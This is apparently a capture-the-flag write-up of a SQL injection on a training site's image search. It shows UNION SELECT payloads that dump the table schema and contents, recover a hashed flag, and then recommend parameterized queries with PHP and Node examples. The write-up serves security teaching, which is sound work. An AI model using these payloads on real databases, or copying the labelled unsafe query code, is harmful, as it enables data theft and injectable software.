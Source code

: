 # Image Search Engine SQL injection

## How we found the breach

Before reading this breach explanation please have a look to this breach before:

[SQL injection on members table explanation →](../../sql_injection_members_table/Ressources/Explanation.md)

The principle is the same as for the members SQL breach. As in the previous SQL injection we achieved to retrieve the whole database tables and columns. `list_images` table is not spared:

```sql
ID: 1 AND 1=2 UNION SELECT table_name, column_name FROM information_schema.columns 
First name: list_images
Surname : id
ID: 1 AND 1=2 UNION SELECT table_name, column_name FROM information_schema.columns 
First name: list_images
Surname : url
ID: 1 AND 1=2 UNION SELECT table_name, column_name FROM information_schema.columns 
First name: list_images
Surname : title
ID: 1 AND 1=2 UNION SELECT table_name, column_name FROM information_schema.columns 
First name: list_images
Surname : comment
```

`list_images` table has 4 columns:

- id
- url
- title
- comment

### UNION SELECT and CONCAT SQL injection

We will then retrieve all the table's entries with all their fields.

Input:
```sql
-1 UNION SELECT 1, CONCAT(id, url, title, comment) FROM list_images
```

Output:
```sql
ID: -1 UNION SELECT 1, CONCAT(id, url, title, comment) FROM list_images 
Title: 1https://fr.wikipedia.org/wiki/Programme_NsaAn image about the NSA !
Url : 1
ID: -1 UNION SELECT 1, CONCAT(id, url, title, comment) FROM list_images 
Title: 2https://fr.wikipedia.org/wiki/Fichier:4242 !There is a number..
Url : 1
ID: -1 UNION SELECT 1, CONCAT(id, url, title, comment) FROM list_images 
Title: 3https://fr.wikipedia.org/wiki/Logo_de_GoGoogleGoogle it !
Url : 1
ID: -1 UNION SELECT 1, CONCAT(id, url, title, comment) FROM list_images 
Title: 4https://en.wikipedia.org/wiki/Earth#/medEarthEarth!
Url : 1
ID: -1 UNION SELECT 1, CONCAT(id, url, title, comment) FROM list_images 
Title: 5borntosec.ddns.net/images.pngHack me ?If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46
Url : 1
```

We can see that the last image contains a hash to handle `1928e8083cf461a51303633093573c46`.

#### Retrieving the flag

Via md5 decrypt of `1928e8083cf461a51303633093573c46` string, contained in the `comment` column of `list_images` table, we get the original plain text: `albatroz`.

Hashing `albatroz` with sha256 algorithm gives us the flag: `f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188`.

## How to exploit the breach

Having a SQL injection breach can lead to leaking the whole database entries, involving users' personal information, emails, password, etc. 

But not only about stealing data, a hacker could even insert entries in a specific table, for example to add credits to his account. A hacker could even delete all the entries of a table – let's hope you made regular backups of your database.

## How to avoid this breach

A solution to avoid this kind of breach would be to escape received image id using either your native database escaping tools or manually.

An other solution would be to use an ORM that will natively prevent SQL injections.

You could also define restricted accesses to the connection to the database: restricted access to only a few tables, no deletion permission, no reading permission for critical tables, etc.

### PHP Example

Unsecured sql querying:

```php
$statement = $dbh->prepare("select comment, url from list_images where list_images.id = {$id}");
$statement->execute();
```

Secured sql querying:

```php
$statement = $dbh->prepare("select comment, url from list_images where list_images.id = ?");
$statement->execute([$id]);
```

### Node Example

Unsecured sql querying:

```js
connection.query(
  `select comment, url from list_images where list_images.id = ${id}`,
  function(err, rows, fields) {
    // Do something with the retrieved data.
  });

```

Secured sql querying:

```js
connection.query(
  'select comment, url from list_images where list_images.id = ?',
  [id],
  function(err, rows, fields) {
    // Do something with the retrieved data.
  });
```
